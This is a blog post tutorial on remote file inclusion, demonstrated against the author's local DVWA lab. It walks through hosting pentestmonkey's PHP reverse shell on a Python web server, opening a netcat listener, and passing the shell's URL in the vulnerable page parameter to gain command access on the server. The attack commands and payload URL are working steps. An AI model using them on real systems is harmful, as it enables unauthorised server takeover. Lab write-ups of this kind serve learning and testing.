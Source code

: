 ```yaml
---
title: Remote file inclusion
date: 14,sep 2022 01:32 AM
categories : [Penetration Tester, Web Hacking ,file inclusion]
tags: [web hacking , file inclusion ]
---
```

# Remote file inclusion (RFI)
![global pic](/assets/rfi.jpg)
## What is RFI
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts , so the hacker can host his web server in the client of the victim that's to give him the power to do a lot of things :
- Code execution on the web server
- Executing client-side code like JavaScript that can lead to other attacks like Cross-site scripting (XSS).
- Denial of Service (DoS)
- Data Theft / Manipulation


![global pic](/assets/rfi2.jpg)
---

## how hacker discover this vulnerabilities

[See this post](https://chalalsaad.github.io/posts/file-inclusion-first-post/)

---

## Remote file inclusion examples
i will attack my [DVWA](https://www.kali.org/tools/dvwa/) lab 




![global pic](/assets/rfi3.png)



First we need [reverse PHP shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) This  script will open an outbound TCP connection from the web server to a host and port of your choice.  Bound to this TCP connection will be a shell.if you are php developer you can build your own , is available in [GitHub](https://github.com/pentestmonkey/php-reverse-shell):

Open the php-reverse-shell.php file by nano or any editor and try to verify double thing of course the ip and the port

![ reverse shell](/assets/rfi4.png)

---
Now we need to create a web server ,me i use [python web  server](https://pythonbasics.org/webserver/) ,you can use other  one doesn't matter.

To start a webserver run the command below:
```shell
python3 -m http.server 8888
```
![global pic](/assets/rfi7.png)

![ reverse shell](/assets/rfi5.png)


Now i will use [netcat](https://fr.wikipedia.org/wiki/Netcat) to listening in the target by his port , so netcat functions as a back-end tool that allows for port scanning and port listening.

To start listening on 4444:
```shell
  sudo nc -lvnp 4444
```
- -l :  listen mode, for inbound connects
- -v           verbose [use twice to be more verbose]
- -n           numeric-only IP addresses, no DNS
- -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

![ reverse shell](/assets/rfi6.png)

Ultimate step is run this shell in the victim client 
```http
 http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://0.0.0.0:8888/php-reverse-shell.php
```
![ reverse shell](/assets/rfi8.png)

---
![ reverse shell](/assets/rfi9.png)

### our shell is get in the web server of the victim with successfully


![ reverse shell](/assets/rfi10.png)

### now we have the full control on the server, we can run any command we want and access to any hidden file


![ reverse shell](/assets/rfi11.png)






